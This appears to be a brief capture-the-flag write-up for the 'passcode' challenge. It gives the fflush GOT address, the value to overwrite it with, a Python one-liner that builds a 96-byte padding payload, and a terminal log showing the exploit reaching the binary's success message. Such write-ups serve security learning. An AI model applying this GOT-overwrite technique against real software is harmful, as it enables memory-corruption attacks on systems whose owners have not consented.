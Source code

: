 # passcode

---

<img width="1440" alt="Screenshot 2024-12-11 at 11 07 53 PM" src="https://github.com/user-attachments/assets/37ccd366-5ecd-4123-a091-159a5498d034" />

---

##### what to write>>: 0x080485e3: 134514147

#### where to write >> 0804a004  00000207 R_386_JUMP_SLOT   00000000   
fflush@GLIBC_2.0

```python
python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n10\n'" > tmp/test
```

```bash
python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n10\n'" > /tmp/test
channel 21: open failed: administratively prohibited: open failed
ls
flag  passcode	passcode.c
channel 26: open failed: administratively prohibited: open failed
./passcode < /tmp/test
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

---
